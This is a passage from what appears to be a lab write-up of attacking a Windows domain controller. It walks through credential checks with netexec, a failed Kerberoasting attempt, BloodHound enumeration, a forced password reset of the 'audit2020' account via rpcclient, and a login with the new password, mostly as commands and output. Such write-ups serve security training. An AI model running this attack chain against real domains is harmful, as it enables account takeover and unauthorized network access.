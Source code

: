 ```bash
nxc winrm  10.129.229.17   -u 'support' -p '#00^BlackKnight'

WINRM       10.129.229.17   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.129.229.17   5985   DC01             [-] BLACKFIELD.local\support:#00^BlackKnight
```

No Service Principal Names (SPNs) are found for the user `support`, indicating Kerberoasting is not a viable path with these credentials.


```bash
impacket-GetUserSPNs -request BLACKFIELD.local/support:#00^BlackKnight  -dc-ip 10.129.229.17 
Impacket v0.13.0.dev0+20250528.4535.5b338613 - Copyright Fortra, LLC and its affiliated companies 

No entries found!
```

BloodHound data collection initiated for the `support` user. The data will be collected and zipped for analysis in the BloodHound GUI.

```bash
 bloodhound-python -u 'support' -p '#00^BlackKnight' -d 'BLACKFIELD.local' -c All -ns 10.129.229.17 -v --zip
```

I get zip file

```output
Compressing output into 20251030061645_bloodhound.zip

```

The file  contains the usernames `support` and `AU0172020@BLACKFIELD.LOCAL`. The user `audit2020` is identified for further action.

![[Pasted image 20251030103237.png]]

The password for the user `audit2020` has been successfully changed to `Password123!!!` using `rpcclient`

```bash
rpcclient 10.129.229.17 -U "support"

Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2 audit2020 23 'Password123!!!'
rpcclient $> exit
```

SMB login successful with the new credentials `audit2020`:`Password123!!!`.
```bash
nxc smb  10.129.229.17   -u 'audit2020' -p 'Password123!!!'

SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False) 
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\audit2020:Password123!!! 

```
